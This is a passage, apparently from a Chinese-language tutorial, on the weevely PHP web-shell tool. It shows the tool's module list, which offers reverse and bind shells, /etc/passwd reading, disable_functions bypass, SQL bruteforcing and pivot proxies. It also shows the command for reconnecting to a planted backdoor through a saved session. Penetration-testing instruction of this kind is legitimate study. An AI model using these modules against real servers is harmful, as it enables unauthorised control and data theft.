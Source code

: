 ```shell
 :file_read                    Read remote file from the remote filesystem.
 :file_gzip                    Compress or expand gzip files.
 :file_touch                   Change file timestamp.
 :file_tar                     Compress or expand tar archives.
 :file_webdownload             Download an URL.
 :file_cd                      Change current working directory.
 :file_check                   Get attributes and permissions of a file.
 :file_cp                      Copy single file.
 :file_rm                      Remove remote file.
 :file_mount                   Mount remote filesystem using HTTPfs.
 :file_upload                  Upload file to remote filesystem.
 :sql_dump                     Multi dbms mysqldump replacement.
 :sql_console                  Execute SQL query or run console.
 :audit_filesystem             Audit the file system for weak permissions.
 :audit_disablefunctionbypass  Bypass disable_function restrictions with mod_cgi and .htaccess.
 :audit_etcpasswd              Read /etc/passwd with different techniques.
 :audit_suidsgid               Find files with SUID or SGID flags.
 :audit_phpconf                Audit PHP configuration.
 :backdoor_reversetcp          Execute a reverse TCP shell.
 :backdoor_tcp                 Spawn a shell on a TCP port.
 :bruteforce_sql               Bruteforce SQL database.
 :net_scan                     TCP Port scan.
 :net_ifconfig                 Get network interfaces addresses.
 :net_proxy                    Run local proxy to pivot HTTP/HTTPS browsing through the target.
 :net_curl                     Perform a curl-like HTTP request.
 :net_mail                     Send mail.
 :net_phpproxy                 Install PHP proxy on the target.

apache@localhost:/var/www/html $ 
```

## 加载 session 会话文件：`weevely session <path> [cmd]`

在连接到木马后，weevely 会生成一个 session 文件，默认存放在 ~/.weevely/sessions/\<host\>/\<filename\>\_\<id\>.session，连接退出后可以通过 session 文件再次连接。

```shell
[root@kali] ~ # weevely session ~/.weevely/sessions/localhost/cmd_0.session
[+] weevely 4.0.1

[+] Target:     apache@localhost.localdomain:/var/www/html/shop/data
[+] Session:    /root/.weevely/sessions/localhost/cmd_0.session
[+] Shell:      System shell

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> 
```

# weevely 常用模块
